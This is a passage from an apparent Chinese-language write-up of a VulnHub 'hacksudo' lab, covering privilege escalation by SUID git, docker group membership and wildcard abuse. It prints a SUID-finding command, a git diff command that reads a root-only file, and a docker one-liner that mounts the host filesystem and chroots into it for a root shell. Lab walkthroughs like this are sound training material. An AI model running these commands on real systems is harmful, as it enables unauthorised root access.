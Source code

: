 ![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\73.jpg)

## git提权

使用`find`寻找具有SUID权限的文件

```shell
find / -perm -4000 -print 2>/dev/null
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\74.jpg)

查看其用法，可用的操作很多，尤其是具有SUID权限

链接`https://gtfobins.github.io/gtfobins/git/#limited-suid`

```shell
【读取文件内容】
./git diff /dev/null /root/root.txt
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\75.jpg)

测试获取`shell`，发现不行，当前只能读取文件内容

# docker提权

当使用`find`等搜索无发现时，查看`id`发现，当前用户处于`docker`，不过`docker`中并无任何镜像

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\76.jpg)

在进行`docker`逃逸时，常用的镜像就是`alpine`

因为`docker`默认源是在国外，并且大部分的`docker`源可能都失效，所以这里在`kali`中先下载镜像，然后导出，再使用靶机下载

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\77.jpg)

靶机导入

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\78.jpg)

查看用法，大致都是这一种

```shell
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\79.jpg)



# 通配符滥用

这里其实就需要构造条件来满足，但是这里并无条件，需要自己使用`root`先创建条件，这里可以看参考链接学习`https://www.freebuf.com/articles/system/176255.html`
